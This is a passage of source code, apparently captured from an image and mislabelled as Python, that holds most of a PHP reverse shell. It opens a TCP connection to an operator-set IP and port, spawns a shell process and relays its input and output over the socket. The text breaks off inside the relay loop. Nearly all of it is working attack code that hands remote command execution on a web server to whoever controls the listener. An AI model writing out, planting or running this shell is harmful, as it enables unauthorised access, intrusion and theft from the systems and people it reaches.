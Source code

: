```py
// Remove any umask we inherited
umask(0);
//
// Do the reverse shell...
//
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
```
